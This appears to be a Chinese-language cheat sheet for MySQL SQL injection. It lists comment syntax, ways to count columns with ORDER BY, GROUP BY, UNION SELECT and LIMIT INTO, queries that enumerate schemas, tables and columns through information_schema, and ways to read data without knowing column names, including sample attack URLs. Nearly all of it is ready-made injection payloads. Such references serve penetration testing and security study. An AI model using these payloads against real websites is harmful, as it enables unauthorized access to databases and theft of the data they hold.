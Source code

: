  ##### 注释符
	# 
	-- 注意这里有个空格
	/* hello */
	/*! hello */
	/*!32302 10*/ MYSQL version 3.23.02
 ##### 联合查询
  	得到列数
	order by或group by
	不断增加数字，直到得到报错响应
	1' ORDER BY 1--+	#True
	1' ORDER BY 2--+	#True
	1' ORDER BY 3--+	#True
	1' ORDER BY 4--+	#False - 只有三个列数
	或
	1' GROUP BY 1--+	#True
	1' GROUP BY 2--+	#True
	1' GROUP BY 3--+	#True
	1' GROUP BY 4--+	#False - 只有三个列数
	报错类型的union select
	1' UNION SELECT @--+     
	1' UNION SELECT @,@--+   
	1' UNION SELECT @,@,@--+ 
	报错类型的LIMIT INTO
	注入点位于LIMIT后，查找列数
	1' LIMIT 1,1 INTO @--+    
	1' LIMIT 1,1 INTO @,@--+  
	1' LIMIT 1,1 INTO @,@,@--+    #没报错 只有三个列数
	information_schema 提取数据库
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
	Mysql >=4.1没有information_schema
	获取列数
	?id=(1)and(SELECT * from db.users)=(1)
	获取列名
	?id=1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)
	MySQL 5的方法
	-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b)a
	--#1060 - Duplicate column name 'id'

	-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a
	-- #1060 - Duplicate column name 'name'

	-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a
	不知道列名提取数据
	select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
	http://url/index.php?id=1 order by 6
	http://url/index.php?id=-1 union select 1,(select `4` from (select 1,2,3,4,5,6 union select * from users)a limit 1,1)-- -
	http://url/index.php?id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1)-- -
